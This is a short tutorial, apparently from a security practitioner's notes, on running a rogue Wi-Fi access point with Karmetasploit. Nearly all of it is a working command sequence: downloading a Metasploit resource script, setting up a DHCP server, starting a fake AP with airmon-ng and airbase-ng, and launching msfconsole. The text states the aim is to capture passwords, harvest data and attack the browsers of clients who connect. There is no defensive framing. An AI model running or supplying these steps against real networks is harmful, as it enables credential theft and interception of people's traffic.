 ## Rogue APs with Karmetasploit

Karmetasploit is a great function within Metasploit, allowing you to fake access points, capture passwords, harvest data, and conduct browser attacks against clients.

Install Karmetasploit configuration:

```
root@RoseSecurity:~# wget https://www.offensive-security.com/wp-content/uploads/2015/04/karma.rc_.txt
root@RoseSecurity:~# apt update
```

Install and configure sqlite and DHCP server:

```
root@RoseSecurity:~# apt -y install isc-dhcp-server
root@RoseSecurity:~# vim /etc/dhcp/dhcpd.conf
root@RoseSecurity:~# apt -y install libsqlite3-dev
root@RoseSecurity:~# gem install activerecord sqlite3
```

Now we are ready to go. First off, we need to locate our wireless card, then start our wireless adapter in monitor mode with airmon-ng. Afterwards we use airbase-ng to start a new wireless network.

```
# Locate interface
root@RoseSecurity:~# airmon-ng

# Start monitoring
root@RoseSecurity:~# airmon-ng start wlan0

# Start AP
root@RoseSecurity:~# airbase-ng -P -C 30 -e "Fake AP" -v wlan0mon

# Assign IP to interface
root@RoseSecurity:~# ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
```

Before we run our DHCP server, we need to create a lease database, then we can get it to listening on our new interface.

```
root@RoseSecurity:~# touch /var/lib/dhcp/dhcpd.leases
root@RoseSecurity:~# dhcpd -cf /etc/dhcp/dhcpd.conf at0
```

Run Karmetasploit:

```
root@RoseSecurity:~# msfconsole -q -r karma.rc_.txt
```

At this point, we are up and running. All that is required now is for a client to connect to the fake access point. When they connect, they will see a fake ‘captive portal’ style screen regardless of what website they try to connect to. You can look through your output, and see that a wide number of different servers are started. From DNS, POP3, IMAP, to various HTTP servers, we have a wide net now cast to capture various bits of information.
